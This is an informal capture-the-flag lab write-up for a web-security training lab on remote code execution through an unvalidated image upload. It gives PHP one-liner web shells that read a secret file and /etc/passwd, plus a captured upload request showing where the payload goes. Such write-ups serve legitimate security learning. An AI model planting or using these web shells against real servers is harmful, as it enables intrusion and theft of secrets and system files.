




# Remote code execution via web shell upload

## This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo file_get_contents('/home/carlos/secret'); ?>

---

### step 1

login using uername and password
upload image
and open image using right click on avatar

https://0a07008a0314cec2c0804f6500ec004f.web-security-academy.net/files/avatars/Screenshot.png

### step2

upload

<?php echo file_get_contents('/home/carlos/secret'); ?>

this code as test as test.php
now
https://0a07008a0314cec2c0804f6500ec004f.web-security-academy.net/files/avatars/test.php
you will get this secret code
ced1FZfjQHONoZWguqkBA63296QgpE2x

submit and solved the lab

## we can test this on repeater as well

POST /my-account/avatar HTTP/1.1
Host: 0a09001b037378d1c340c5240047000e.web-security-academy.net
Cookie: session=pgXZMQWGcfzMLRxWNZnx42mXpdTyNEHC
Content-Length: 327475
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a09001b037378d1c340c5240047000e.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypT9LSMVRq0q0kkdq
User-Agent: Mozilla/5.0 (X11; Linux x86*64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/\_;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a09001b037378d1c340c5240047000e.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="avatar"; filename="Screenshot_2022-12-16_03_42_29.png"
Content-Type: image/png

------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="csrf"

0V9jAe3n3kflmgp5ShE0UlVSukOuKy7U
------WebKitFormBoundarypT9LSMVRq0q0kkdq--

---

remvove image data then add

<?php echo file_get_contents('/etc/passwd'); ?>

